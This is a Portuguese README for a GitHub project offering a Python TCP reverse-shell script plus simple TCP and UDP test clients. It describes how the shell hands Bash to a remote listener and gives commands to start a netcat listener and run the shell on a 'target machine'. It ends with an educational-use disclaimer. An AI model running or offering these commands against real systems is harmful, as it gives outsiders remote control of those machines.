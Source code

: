 # Ferramentas de Conexão TCP/UDP e Reverse Shell

Este projeto contém scripts Python para comunicação via TCP, UDP e para criação de uma reverse shell.

## Arquivos
- `reverse-shell-tcp.py`: Script principal que implementa uma reverse shell via TCP.
- `simple-client-tcp.py`: Cliente simples para conexão TCP e troca de mensagens.
- `simple-client-udp.py`: Cliente simples para conexão UDP e troca de mensagens.

## Como funciona

### reverse-shell-tcp.py
O script conecta-se a um servidor remoto (listener) especificado por IP e porta, redirecionando a entrada e saída padrão para o socket, e executa um shell Bash. Isso permite que o servidor remoto execute comandos no sistema onde o script está rodando.

### simple-client-tcp.py
Permite conectar-se a um servidor TCP, enviar uma mensagem e receber uma resposta. Útil para testes de comunicação TCP.

### simple-client-udp.py
Permite enviar e receber mensagens de/para um servidor UDP em modo interativo. Útil para testes de comunicação UDP.

## Uso

### 1. Reverse Shell TCP
**No servidor listener:**
```bash
nc -lvnp <porta>
```
**Na máquina alvo:**
```bash
python3 reverse-shell-tcp.py <ip_do_servidor> <porta>
```
- `<ip_do_servidor>`: IP do listener
- `<porta>`: Porta usada pelo listener

### 2. Cliente TCP Simples
```bash
python3 simple-client-tcp.py
```
- Informe o IP e a porta do servidor TCP quando solicitado.

### 3. Cliente UDP Simples
```bash
python3 simple-client-udp.py
```
- Informe o IP e a porta do servidor UDP quando solicitado.
- Digite mensagens para enviar ao servidor. Para sair, envie "/sair".

## Exemplo
```bash
# Listener TCP
nc -lvnp 4444

# Cliente TCP
python3 simple-client-tcp.py
# (Digite o IP e a porta do listener)

# Cliente UDP
python3 simple-client-udp.py
# (Digite o IP e a porta do listener UDP)
```

## Requisitos
- Python 3.x
- Sistema operacional com `/bin/bash` disponível (para reverse shell)

## Aviso Legal
> **Atenção:** Estes scripts são para fins educacionais e de teste em ambientes controlados e autorizados. O uso não autorizado pode ser ilegal. O autor não se responsabiliza por qualquer uso indevido. 